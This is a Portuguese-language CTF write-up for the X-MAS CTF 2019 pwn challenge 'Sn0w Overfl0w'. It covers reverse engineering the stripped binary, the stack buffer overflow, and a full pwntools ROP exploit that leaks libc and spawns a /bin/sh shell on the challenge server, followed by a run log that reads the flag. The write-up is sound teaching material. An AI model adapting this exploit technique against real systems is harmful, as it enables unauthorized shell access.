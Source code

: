 # Writeup "Sn0w Overfl0w" - XMAS-CTF 2019
## Categories: pwn, Return Oriented Programming (ROP), Buffer Overflow (BOF), leaking libc

A challenge nos oferece apenas um binário que o nomearemos como "chall".

Executando o binário, obtemos um prompt para "Helloooooo, do you like to build snowmen?" como demonstrado a seguir:
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# ./chall                                                
Helloooooo, do you like to build snowmen?

Visualizando as chamadas para libraries que o binário faz, podemos reparar que ele executa um strcmp do nosso input com o texto "yes":
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# ltrace ./chall
setvbuf(0x7fbbf81f3a00, 0, 2, 0)                                                                             = 0
setvbuf(0x7fbbf81f4760, 0, 2, 0)                                                                             = 0
puts("Helloooooo, do you like to build"...Helloooooo, do you like to build snowmen?)                         = 42
read(yes, "yes\n", 100)                                                                                     = 4
strcmp("yes\n", "yes")                                                                                       = 10
puts("Mhmmm... Boring..."Mhmmm... Boring...)

Na verdade, teriamos que introduzir o "yes" de forma que o caractere newline ("\n") nao entrasse no input, de forma que o strcmp retornasse true, porém todo esse processo demonstrou-se desnecessário ao analisarmos o binário com GDB e descobrirmos um buffer overflow no binário.

## Binário Stripped
Como se trata de um binário stripped, teremos que achar a função main manualmente, podemos fazer isso da seguinte forma:
```
1. fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# gdb ./chall
2. gef➤  info file
   Symbols from "/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall".
   Local exec file:
           `/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall', file type elf64-x86-64.
           Entry point: 0x401070
           0x00000000004002a8 - 0x00000000004002c4 is .interp
           0x00000000004002c4 - 0x00000000004002e4 is .note.ABI-tag
           .................. ................. .................
3. gef➤  b *0x401070
   Breakpoint 1 at 0x401070
4. gef➤  r
	Starting program: /home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall                                                              	                                         
	
	Breakpoint 1, 0x0000000000401070 in ?? ()
5. gef➤  x/20i $rip
   => 0x401070:    endbr64
      0x401074:    xor    ebp,ebp
      0x401076:    mov    r9,rdx
      0x401079:    pop    rsi
      0x40107a:    mov    rdx,rsp
      0x40107d:    and    rsp,0xfffffffffffffff0
      0x401081:    push   rax
      0x401082:    push   rsp
      0x401083:    mov    r8,0x401280
      0x40108a:    mov    rcx,0x401210
      0x401091:    mov    rdi,0x401167
      0x401098:    call   QWORD PTR [rip+0x2f52]        # 0x403ff0
      0x40109e:    hlt
      0x40109f:    nop
      0x4010a0:    endbr64
      0x4010a4:    ret
      0x4010a5:    nop    WORD PTR cs:[rax+rax*1+0x0]
      0x4010af:    nop
      0x4010b0:    mov    eax,0x404040
      0x4010b5:    cmp    rax,0x404040
```
Ok, o endereço do começo de main() é 0x401167. Mas como exatamente descobrimos isso?
No passo 2 e 3, obtemos e setamos um breakpoint para o entry point do binário, oque nada mais é que o ponto de entrada do programa, ali encontram-se as primeiras instruções de um binário, pois bem o push do endereço de main para __libc_start_main.
__libc_start_main será setado posteriormente, enquanto isso, podemos apenas assumir, que a chamada feita em 0x401098 se trata de uma "call __libc_start_main" e receberia como argumento 0x401167, o qual é mov'ido para o primeiro general purpose register $rdi a fim de ser usado como argumento para a função __libc_start_main. Logo, 0x401167 é o endereço de início da nossa função main.

## Entendendo o Execution Flow do programa e Identificando Buffer Overflow
Com a função main em mãos, podemos analisar ela via ghidra.
A função main decompilada se comporta da seguinte maneira:
```
undefined8 FUN_00401167(void)

{
  int iVar1;
  char local_12 [10];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Helloooooo, do you like to build snowmen?");
  read(0,local_12,100);
  iVar1 = strcmp(local_12,"yes");
  if (iVar1 == 0) {
    puts("Me too! Let\'s build one!");
  }
  else {
    puts("Mhmmm... Boring...");
  }
  return 0;
}
```
É explícita a existência de um buffer overflow ao ler 100bytes de dados para uma variavel que suporta apenas 10.
Possuindo um BOF no binário, podemos pular para a parte da exploração, porem antes disso, precisamos checkar as proteções que o binário possúi:
```
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# checksec ./chall 
[*] '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
"NX Enabled", No Execute esta ativado, isto é, a stack inteira se torna read-only, impossibilitando o clássico ataque de buffer-overflow consistindo na "alocação" e chamada do shellcode na stack.
A fim de burlarmos tal proteção, faremos um ataque do tipo Return Oriented Programming (ROP).

Nosso exploit final ficará da seguinte forma:
```
from pwn import *

p = remote("challs.xmas.htsp.ro", 12006)
elf = ELF("./chall")
libc = ELF("libc-2.27.so")
rop = ROP(elf)

pad = "A"*(18)
puts = elf.plt["puts"]
libc_start_main = elf.symbols["__libc_start_main"]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
RET = (rop.find_gadget(['ret']))[0]

info("puts@plt => "+hex(puts))
info("__libc_start_main => "+hex(libc_start_main))
info("pop rdi => "+hex(pop_rdi))

rop = pad + p64(pop_rdi) + p64(libc_start_main) + p64(puts) + p64(0x401070)
p.sendlineafter("snowmen?", rop)
p.recvline()
p.recvline()
leaked__libc_start_main = u64(p.recvline().strip().ljust(8, "\x00"))
info("Leaked __libc_start_main@GLIBC => "+hex(leaked__libc_start_main))

libc.address = leaked__libc_start_main - libc.sym["__libc_start_main"]
libc_base = libc.address
info("libc base => "+hex(libc_base))

system = libc.sym["system"]
str_bin_sh = next(libc.search("/bin/sh"))

info("/bin/sh => %s " % hex(str_bin_sh))
info("system => %s " % hex(system))

xpl = pad + p64(RET) + p64(pop_rdi) + p64(str_bin_sh) + p64(system)
p.sendlineafter("snowmen?", xpl)

p.interactive()
```

## Pwning!!
```
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# python xpl.py      
[+] Opening connection to challs.xmas.htsp.ro on port 12006: Done
[*] '/home/fex0r/.ctf/xmas-ctf/writeups/sn0w-overfl0w/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/fex0r/.ctf/xmas-ctf/writeups/sn0w-overfl0w/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loading gadgets for '/home/fex0r/.ctf/xmas-ctf/writeups/sn0w-overfl0w/chall'
[*] puts@plt => 0x40102c
[*] __libc_start_main => 0x403ff0
[*] pop rdi => 0x401273
[*] Leaked __libc_start_main@GLIBC => 0x7fb0ba683ab0
[*] libc base => 0x7fb0ba662000
[*] /bin/sh => 0x7fb0ba815e9a 
[*] system => 0x7fb0ba6b1440 
[*] Switching to interactive mode

Mhmmm... Boring...
$ cat flag.txt
X-MAS{700_much_5n0000w}
```
